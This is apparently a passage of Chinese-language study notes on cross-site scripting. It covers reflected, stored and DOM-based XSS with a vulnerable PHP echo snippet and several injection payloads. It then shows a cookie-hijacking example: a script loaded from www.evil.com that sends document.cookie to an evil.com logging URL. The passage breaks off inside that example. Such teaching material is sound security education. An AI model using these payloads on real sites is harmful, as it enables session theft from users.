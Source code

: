                     $input = $_GET["param"];
                    echo "<div>".$input."</div>";

                    ?>
                    ```
                        + 提交
                            ```
                            http://www.a.com/test.php?param=<script>alert(/xss/)</script>
                            ```
            + 存储型
                * 存储型XSS会把用户输入的数据“存储”在服务器端
                * 具有很强的稳定性
                * 比较常见的一个场景
                    - 发表包含有恶意JavaScript代码的博客文章
                    - 保存到 __服务器端__ 
                    - 所有访问该博客文章的用户，都会在他们的浏览器中执行这段恶意的JavaScript代码。
                * 通常也叫做“持久型XSS”(Persistent XSS)
                    - 从效果上来说，它存在的时间是比较长的。
            + DOM based 型
                * 通过 __修改页面的DOM节点__ 形成的XSS
                * 并非按照“数据是否保存在服务器端”来划分
                    - 效果上来说也是反射型XSS
                    - 单独划分出来，是因为DOM Based XSS的形成原因比较特别，发现它的安全专家专门提出了这种类型的XSS。出于历史原因，也就把它单独作为一个分类了。
                * 例子
                    - .
                        ```
                        <script>

                          function test(){
                            var str = document.getElementById("text").value;
                            document.getElementById("t").innerHTML = "<a href='"+str+"' >testLink</a>";
                          }

                        </script>

                        <div id="t" ></div>
                        <input type="text" id="text" value="" />
                        <input type="button" id="s" value="write" onclick="test()" />
                        ```
                        + 构造
                            ```
                            ' onclick=alert(/xss/) //
                            ```
                            + 首先用一个单引号闭合掉href的第一个单引号，然后插入一个onclick事件，最后再用注释符“//” __注释掉第二个单引号__ 。
                        + __另一种利用方式__
                            * 闭合掉 `<a>` 标签，并插入一个新的HTML标签
                                ```
                                '><img src=# onerror=alert(/xss2/) /><'
                                ```
+ 进阶
    * XSS Payload
        - JavaScript脚本（还可以是Flash或其他富客户端的脚本）
        - 最常见的读取浏览器的Cookie对象，从而发起“Cookie劫持”
            + 一般加密保存了当前用户的登录凭证，浏览器发起的所有请求自动带上Cookie。
            + Cookie如果丢失，往往意味着用户的登录凭证丢失。
                * 如果Cookie没有绑定客户端信息，当攻击者窃取了Cookie后，就可以不用密码登录进用户的账户
            + 先加载一个远程脚本
                ```
                http://www.a.com/test.htm?abc="><script src=http://www.evil.com/evil.js ></script>
                ```
                * evil.js
                    ```
                    var img = document.createElement("img");
                    img.src = "http://www.evil.com/log?"+escape(document.cookie);
                    document.body.appendChild(img);
